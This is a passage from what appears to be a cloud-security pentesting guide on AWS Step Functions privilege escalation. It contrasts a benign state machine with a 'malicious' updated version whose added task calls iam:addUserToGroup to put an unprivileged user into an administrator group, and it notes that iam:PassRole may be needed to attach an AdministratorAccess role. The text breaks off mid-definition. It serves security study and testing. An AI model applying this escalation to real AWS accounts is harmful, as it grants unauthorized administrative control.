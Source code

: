 > [!WARNING]
> If the state machine does not have a permissive IAM Role associated, it would also be required the **`iam:PassRole`** permission to update the IAM Role in order to associate a permissive IAM Role (for example one with the **`arn:aws:iam::aws:policy/AdministratorAccess`** policy attached).

{{#tabs }}
{{#tab name="Legit State Machine" }}

```json
{
  "Comment": "Hello world from Lambda state machine",
  "StartAt": "Start PassState",
  "States": {
    "Start PassState": {
      "Type": "Pass",
      "Next": "LambdaInvoke"
    },
    "LambdaInvoke": {
      "Type": "Task",
      "Resource": "arn:aws:states:::lambda:invoke",
      "Parameters": {
        "FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
      },
      "Next": "End PassState"
    },
    "End PassState": {
      "Type": "Pass",
      "End": true
    }
  }
}
```

{{#endtab }}

{{#tab name="Malicious Updated State Machine" }}

```json
{
  "Comment": "Hello world from Lambda state machine",
  "StartAt": "Start PassState",
  "States": {
    "Start PassState": {
      "Type": "Pass",
      "Next": "LambdaInvoke"
    },
    "LambdaInvoke": {
      "Type": "Task",
      "Resource": "arn:aws:states:::lambda:invoke",
      "Parameters": {
        "FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
      },
      "Next": "AddUserToGroup"
    },
    "AddUserToGroup": {
      "Type": "Task",
      "Parameters": {
        "GroupName": "administrator",
        "UserName": "unprivilegedUser"
      },
      "Resource": "arn:aws:states:::aws-sdk:iam:addUserToGroup",
      "Next": "End PassState"
    },
    "End PassState": {
      "Type": "Pass",
      "End": true
```